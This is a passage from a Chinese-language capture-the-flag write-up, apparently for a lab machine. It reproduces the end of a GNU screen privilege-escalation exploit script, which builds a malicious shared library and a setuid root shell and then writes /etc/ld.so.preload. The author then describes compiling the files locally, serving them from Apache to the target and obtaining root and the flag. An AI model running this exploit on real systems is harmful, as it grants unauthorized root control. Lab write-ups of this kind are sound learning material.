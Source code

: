 ```shell
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

直接传到服务器上出现了问题：

```bash
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

是编译的问题，既然这样，那就本地编译再传上去好了。

将shell.sh中的两个CPP文件按命令编译后：

```bash
sudo cp libhax.so /var/www/html
sudo cp rootshell /var/www/html
sudo systemctl start apache2.service
```

随机在服务器的shell中下载这两个文件：

![image-20210330180345221](image-20210330180345221.png)

然后将剩余步骤写入一个sh文件中：

![image-20210330180513654](image-20210330180513654.png)

允许该sh文件，拿到root权：

![image-20210330180543561](image-20210330180543561.png)

然后就成功拿到Flag啦！

![image-20210330180615142](image-20210330180615142.png)